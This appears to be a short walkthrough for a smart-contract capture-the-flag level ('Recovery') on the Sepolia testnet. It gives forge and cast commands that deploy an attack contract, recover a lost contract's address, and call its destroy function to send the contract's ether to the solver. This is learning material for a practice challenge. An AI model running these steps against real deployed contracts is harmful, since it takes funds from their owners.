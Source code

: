 # Recovery Solution

Deploy:

```bash
forge create RecoveryHack --broadcast --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Run to retrieve the `lostContractAddress`:

```bash
cast call <recoveryHackAddress> "attack(address)" <instanceAddress> --rpc-url $SEPOLIA_RPC_URL
# 0x0000000000000000000000001e08b6856bdf73e26747b197f2e5b1bef63af7c8
echo <lostContractAddress> | sed "s/0x000000000000000000000000/0x/"
# echo 0x0000000000000000000000001e08b6856bdf73e26747b197f2e5b1bef63af7c8 | sed "s/0x000000000000000000000000/0x/"
# 0x1e08b6856bdf73e26747b197f2e5b1bef63af7c8
```

Run:

```bash
cast send <lostContractAddress> "destroy(address)" sepoliaPublicKey --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
